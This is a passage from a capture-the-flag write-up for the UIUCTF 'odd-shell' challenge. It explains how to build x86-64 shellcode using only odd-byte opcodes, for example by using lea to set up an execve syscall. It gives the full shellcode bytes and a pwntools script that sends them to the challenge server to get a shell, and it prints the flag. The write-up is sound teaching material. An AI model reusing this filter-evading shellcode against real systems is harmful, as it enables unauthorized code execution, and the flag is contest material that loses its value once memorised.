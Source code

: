 ![eax-0](images/eax-0.png)

So, our goal is to put `0x3b` or 59 in `rax` which we can achieve if we can put this value in `al` only cz the rest of `rax` is 0. But unfortunately we cant do `mov al, 0x3b`,  `mov ax, 0x3b`, `mov eax, 0x3b`. None of this. I was wondering for quite some time regarding this. Then it occurred to me that I can use `lea` to do arithmetic operations and after testing, I found that it also emits only odd byte opcodes. So, we have 0 in `ecx ` and if we add `0x3b` with ecx and put the result in `eax`, we get what we want. The following does just this using `lea`:
```assembly
lea    eax,[ecx+0x3b]
```

### syscall
Now, after applying all these clever techniques to get around the odd-byte restriction, we're finally ready to do the coveted `syscall` thereby spawning a shell for us.

The full assembly can be found [here](./shellcode-assembly.md).

## Convert assembly to opcodes
We need to convert the assembly that we crafted to a sequence of opcodes for us. As mentioned, I use [defuse.ca](https://defuse.ca/) for this. The sequence of opcodes is the following:
```
\x41\xBB\xF1\xFF\xFF\xFF\x41\x83\xEB\x89\x4D\x31\xC9\x4D\x09\xD9\x49\xC1\xE1\x0F\x49\xD1\xE1\x41\xBB\x11\xFF\xFF\xFF\x41\x81\xEB\xE1\x8B\xFF\xFF\x41\xFF\xCB\x4D\x09\xD9\x49\xC1\xE1\x0F\x49\xD1\xE1\x41\xBB\xF1\xFF\xFF\xFF\x41\x81\xEB\x87\x91\xFF\xFF\x41\xFF\xCB\x4D\x09\xD9\x49\xC1\xE1\x0F\x49\xD1\xE1\x41\xBB\xF1\xFF\xFF\xFF\x41\x81\xEB\xC1\x9D\xFF\xFF\x41\xFF\xCB\x4D\x09\xD9\x41\x51\x4D\x31\xC9\x49\x09\xE1\x41\x51\x5F\x31\xC9\x0F\xB7\xD1\x0F\xB7\xF1\x67\x8D\x41\x3B\x0F\x05
```

## Final Exploit

The following python code establishes a connection and sends the payload. And voila, we get a shell. For the flag though, we had to navigate to the root directly and print it out.
```python
#!/usr/bin/env python3


from pwn import *


host = 'odd-shell.chal.uiuc.tf'
port = '1337'

p = remote(host, port)
 

response = p.recvuntil("oddities:\n")
print(response)
print("sending payload")
p.sendline(b"\x41\xBB\xF1\xFF\xFF\xFF\x41\x83\xEB\x89\x4D\x31\xC9\x4D\x09\xD9\x49\xC1\xE1\x0F\x49\xD1\xE1\x41\xBB\x11\xFF\xFF\xFF\x41\x81\xEB\xE1\x8B\xFF\xFF\x41\xFF\xCB\x4D\x09\xD9\x49\xC1\xE1\x0F\x49\xD1\xE1\x41\xBB\xF1\xFF\xFF\xFF\x41\x81\xEB\x87\x91\xFF\xFF\x41\xFF\xCB\x4D\x09\xD9\x49\xC1\xE1\x0F\x49\xD1\xE1\x41\xBB\xF1\xFF\xFF\xFF\x41\x81\xEB\xC1\x9D\xFF\xFF\x41\xFF\xCB\x4D\x09\xD9\x41\x51\x4D\x31\xC9\x49\x09\xE1\x41\x51\x5F\x31\xC9\x0F\xB7\xD1\x0F\xB7\xF1\x67\x8D\x41\x3B\x0F\x05")

p.interactive()
```

## Flag
`uiuctf{5uch_0dd_by4t3s_1n_my_r3g1st3rs!}`
